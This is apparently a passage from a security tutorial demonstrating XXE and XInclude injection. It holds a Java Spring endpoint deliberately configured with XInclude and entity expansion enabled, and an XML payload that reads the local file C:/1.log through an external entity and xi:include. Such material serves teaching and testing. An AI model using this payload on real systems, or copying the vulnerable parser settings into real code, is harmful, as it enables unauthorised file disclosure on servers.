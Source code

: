 ```java

    @PostMapping("/parseXml")
    public String parseXml(@RequestBody String xmlData) throws Exception {
        DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
        factory.setXIncludeAware(true); //支持XInclude
        factory.setNamespaceAware(true);
        factory.setExpandEntityReferences(true);
        DocumentBuilder builder = factory.newDocumentBuilder();
        Document document = builder.parse(new InputSource(new StringReader(xmlData)));
        String xmlString = getStringFromDocument(document);
        System.out.println(xmlString);
        return "XXE";
    }

    private static String getStringFromDocument(Document document) throws Exception {
        TransformerFactory transformerFactory = TransformerFactory.newInstance();
        Transformer transformer = transformerFactory.newTransformer();
        StringWriter writer = new StringWriter();
        transformer.transform(new DOMSource(document), new StreamResult(writer));
        return writer.getBuffer().toString();
    }
}
```

{% endcode %}

{% code title="payload" %}

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///C:/1.log" >]>
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include href="file:///C:/1.log" parse="text"/>
  <data>&xxe;</data>
</foo>
```

{% endcode %}

![image-20230308153543378](../../.gitbook/assets/image-20230308153543378.png)

